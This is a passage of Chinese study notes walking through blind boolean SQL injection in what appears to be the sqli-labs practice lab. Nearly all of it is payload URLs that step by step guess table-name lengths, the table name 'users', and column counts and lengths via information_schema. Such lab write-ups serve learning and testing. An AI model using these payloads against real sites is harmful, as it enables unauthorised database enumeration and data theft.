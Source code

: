 ```sql
http://1.14.28.17:45257/get.php?id=1'and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=6 --+
```

- 获取第二个``表名长度``-->8

```sql
http://1.14.28.17:45257/get.php?id=1'and (select length(table_name) from information_schema.tables where table_schema=database() limit 1,1)=8 --+
```

- 获取第三个``表名长度``-->7

```sql
http://1.14.28.17:45257/get.php?id=1'and (select length(table_name) from information_schema.tables where table_schema=database() limit 2,1)=7 --+
```

- 获取第四个``表名长度``-->5

```sql
http://1.14.28.17:45257/get.php?id=1'and (select length(table_name) from information_schema.tables where table_schema=database() limit 3,1)=5 --+
```

- 获取第四个``表名``--> 117 115 101 114 115 即:``users``

![image-20240820205508239](C:\Users\24937\Desktop\学习\笔记\assets\image-20240820205508239-1724326766500-1.png)

- 获取``字段数``-->3

```sql
//代表有users表中有三个字段
http://192.168.77.131/master/Less-8/?id=-1'or (select count(*) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1))=3 --+
```

- 获取``第一个字段长度``-->2

```sql
http://192.168.77.131/master/Less-8/?id=-1'or (select length(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 0,1)=2 --+
```

- 获取``第二个字段长度``-->8

```sql
http://192.168.77.131/master/Less-8/?id=-1'or (select length(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 1,1)=8 --+
```

- 获取``第三个字段长度``-->8

```sql
http://192.168.77.131/master/Less-8/?id=-1'or (select length(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 2,1)=8 --+
```
